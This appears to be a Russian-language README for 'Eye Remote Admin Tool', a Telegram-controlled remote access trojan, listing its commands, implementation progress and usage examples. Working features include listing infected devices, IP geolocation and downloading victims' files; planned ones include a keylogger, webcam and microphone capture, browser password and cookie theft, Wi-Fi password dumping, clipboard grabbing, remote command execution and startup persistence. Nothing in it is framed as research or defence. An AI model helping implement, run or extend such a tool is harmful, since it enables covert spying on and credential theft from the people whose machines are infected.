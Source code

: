 # 🚀 Eye Remote Admin Tool - Commands Guide

## ✅ Работающие команды:

### 📋 Системная информация:
- **`/devices`** - список всех подключенных устройств ✅
- **`/info <device_id>`** - подробная информация об устройстве ✅
- **`/ipinfo <device_id>`** - информация об IP и геолокации ✅
- **`/listdrives <device_id>`** - список дисков устройства ✅

### 📁 Файловая система:
- **`/listdirs <device_id> <path>`** - список папок в директории ✅
- **`/listfiles <device_id> <path>`** - список файлов в директории ✅
- **`/download <device_id> <file_path>`** - скачать файл с устройства ✅

### 🔄 Управление устройством:
- **`/reroll <device_id>`** - сгенерировать новый ID устройства ✅

### 🛠️ Недавно добавленные (заглушки):
- **`/popup <device_id> <message>`** - показать всплывающее окно ⚠️
- **`/screenshot <device_id>`** - сделать снимок экрана ⚠️ 
- **`/weblogins <device_id>`** - извлечь сохраненные пароли браузера ⚠️
- **`/startup <device_id>`** - управление автозагрузкой ⚠️

## 🔧 Команды из help, требующие реализации:

### ⚙️ Выполнение команд:
- **`/exec <device_id> <command>`** - выполнить команду в системе
- **`/start <device_id> <app> <params>`** - запустить приложение
- **`/apps <device_id>`** - список установленных программ

### 📁 Файловые операции:
- **`/upload <device_id> <path>`** - загрузить файл на устройство

### 📸 Мониторинг:
- **`/webcam <device_id> <delay> <camera>`** - фото с веб-камеры
- **`/keylogger <device_id>`** - лог нажатий клавиш
- **`/micrec <device_id>`** - запись с микрофона

### 🔐 Безопасность:
- **`/cookies <device_id>`** - файлы cookies браузера
- **`/wifiprofiles <device_id>`** - профили Wi-Fi с паролями
- **`/getclipboard <device_id>`** - содержимое буфера обмена

## 📊 Статус реализации:

| Категория | Реализовано | Всего | Процент |
|-----------|-------------|-------|---------|
| Системная информация | 4/4 | 4 | ✅ 100% |
| Файловая система | 3/4 | 4 | 🟡 75% |
| Выполнение команд | 0/4 | 4 | ❌ 0% |
| Мониторинг | 0/4 | 4 | ❌ 0% |
| Безопасность | 0/4 | 4 | ❌ 0% |
| Управление | 1/2 | 2 | 🟡 50% |

**Общий прогресс: 8/22 команд (36%) ✅**

## 🎯 Для использования:

1. **Запустите бот:** `eye-updated.exe`
2. **Получите Device ID** командой `/devices`
3. **Используйте команды** с полученным ID:
   ```
   /info 8cdd3fd46400c597
   /screenshot 8cdd3fd46400c597  
   /popup 8cdd3fd46400c597 Hello World!
   ```

## 📝 Примеры команд:

```bash
# Системная информация
/devices
/info 8cdd3fd46400c597
/ipinfo 8cdd3fd46400c597
/listdrives 8cdd3fd46400c597

# Файловая система
/listdirs 8cdd3fd46400c597 C:\
/listfiles 8cdd3fd46400c597 C:\Windows
/download 8cdd3fd46400c597 C:\example.txt

# Новые команды (заглушки)
/popup 8cdd3fd46400c597 Тестовое сообщение
/screenshot 8cdd3fd46400c597
/weblogins 8cdd3fd46400c597
/startup 8cdd3fd46400c597
```

## ⚠️ Важные заметки:

- **Device ID** генерируется при запуске: `8cdd3fd46400c597`
- **Заглушки** показывают статус "⚠️ Функция в разработке"
- **Ошибки команд** решены - теперь все команды распознаются
- **Telegram бот** полностью функционален

Все команды `/popup`, `/screenshot`, `/weblogins`, `/startup` теперь **распознаются** и отвечают, но требуют полной реализации функционала!